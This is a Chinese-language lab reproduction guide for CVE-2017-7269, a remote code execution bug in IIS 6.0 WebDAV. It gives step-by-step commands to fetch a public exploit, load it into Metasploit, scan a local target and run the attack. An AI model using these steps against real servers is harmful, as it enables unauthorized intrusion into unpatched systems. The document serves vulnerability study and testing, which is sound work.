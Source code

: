 （CVE-2017-7269）IIS 6.0开启Webdav 缓存区溢出漏洞
=================================================

一、漏洞简介
------------

IIS
6.0开启Webdav服务的服务器被爆存在缓存区溢出漏洞导致远程代码随意执行，目前针对
Windows Server 2003 R2 可以稳定利用。

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

目标主机：Windows Server 2003 R2镜像下载：种子文件用迅雷下载:

    ed2k://|file|cn_win_srv_2003_r2_enterprise_with_sp2_vl_cd1_X13-46432.iso|637917184|284DC0E76945125035B9208B9199E465|/

IP：192.168.1.104

A.安装IIS6.0服务：

![](resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId25.png)

B.打开WebDAV服务拓展：

![](resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId26.png)

攻击机：kali Linux镜像下载：https://www.kali.org/downloads/IP:192.168.1.106

### 配置攻击套件

\--首先我们要下载EXP文件，输入：

> git clone https://github.com/ianxtianxt/cve-2017-7269 //下载EXp
>
> ls //查看当前目录下的文件

![](resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId28.png)

\--然后我们需要复制EXP到msf框架中\#注意复制时，是下划线"\_"不要写成cve-2017-7269.rb\#，在目录下重命名这个文件为cve\_2017\_7269.rb，输入：

> cp cve\_2017\_7269.rb
> /usr/share/metasploit-framework/modules/exploits/windows/iis/
> //复制EXP到相应目录
>
> cd /usr/share/metasploit-framework/modules/exploits/windows/iis/
> //进入目录
>
> ls //查看当前目录下的文件

![](resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId29.png)

![](resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId30.png)

\--我们使用nmap扫描一下靶机的端口情况，输入：

> nmap 192.168.1.104 //扫描192.168.1.104的端口

![](resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId31.png)

可以看到我们要攻击的80端口已经开启\#

### 利用msf开始攻击

![](resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId33.png)

\--然后我们要使用刚才复制进去的EXP套件输入：

    msf5 > use exploit/windows/iis/cve_2017_7269 //使用此套件
    msf5 > show options //查看需要的配置

发现只需要配置RHOSTS(目标IP)，最好把RPORT(目标端口)也配置下

![](resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId34.png)

    msf5 > set rhosts 192.168.1.104 // 设置目标的IP
    msf5 > set rport 80 //设置目标端口

![](resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId35.png)

    msf5 > exploit

![](resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId36.png)
